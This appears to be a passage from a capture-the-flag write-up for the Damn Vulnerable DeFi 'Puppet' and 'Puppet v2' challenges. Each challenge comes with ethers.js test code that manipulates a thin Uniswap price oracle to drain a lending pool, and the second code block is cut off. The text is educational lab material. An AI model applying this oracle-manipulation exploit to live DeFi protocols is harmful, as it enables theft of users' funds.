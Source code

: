 - - -

In this challenge, we must steal all tokens from the lending pool. Also the challenge provide UniswapV1 as oracle. However, UniswapV1 has only 10 ETH and 10 DVT, which means that the exchange rate can be easily changed. Since `calculateDepositRequired()` function in `borrow()` function is using UniswapV1, we can manipulate token price by manipulating UniswapV1. 

First we need to approve UniswapV1 to utilze our token, and exchange all DVT token with just 1 ether. Then it will drop the required deposit amount for borrow function to very low like 0.00019... which means we can borrow 1 DVT with 0.00019 ETH. The implementation for what I explained is below.


```javascript
    it('Exploit', async function () {
        const deadline = (await ethers.provider.getBlock("latest")).timestamp * 2;
        await this.token.connect(attacker).approve(this.uniswapExchange.address, ATTACKER_INITIAL_TOKEN_BALANCE);
        await this.uniswapExchange.connect(attacker).tokenToEthSwapInput(ethers.utils.parseEther('999'), '1', deadline);
        
        const value = {value: ethers.utils.parseEther("24.0")}        
        const attackValue = ethers.utils.parseEther("100000")
        this.lendingPool.connect(attacker).borrow(attackValue, value);
    });
```


- - -
## CTF name: Damn Vulnerable DeFi
### Challenge name: Puppet v2
### Challenge description:
    The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!

    Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.

    You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)

- - -

In this challenge, we must steal million DVT from the pool. This challenge is very similar to previous challenge, puppet. The difference is that puppet v2 is using Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. However, the oracle still can be manipulated. First we can swap 10000 DVT token to ETH using `swapExactTokensForETH()` function from Uniswap Router. Then we just need to calculate the deposit amount to borrow all DVT from pool. Since we use WeTH to borrow DVT, deposit calculated amount to WETH. Then borrow DVT balance of pool.

```javascript
    it('Exploit', async function () {
        const deadline = (await ethers.provider.getBlock('latest')).timestamp * 2;
        await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE);
        await this.uniswapRouter.connect(attacker).swapExactTokensForETH(ATTACKER_INITIAL_TOKEN_BALANCE, 0, [this.token.address, this.weth.address], attacker.address, deadline);
        
        let calculatedDeposit = await ethers.utils.formatEther(ethers.BigNumber.from(await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)));
        let calculatedDepositToStringInETH = ethers.utils.parseEther((Math.ceil(calculatedDeposit * 10) / 10).toString());

        await this.weth.connect(attacker).deposit({value: calculatedDepositToStringInETH } )

        this.weth.connect(attacker).approve(this.lendingPool.address, calculatedDepositToStringInETH);
        this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
```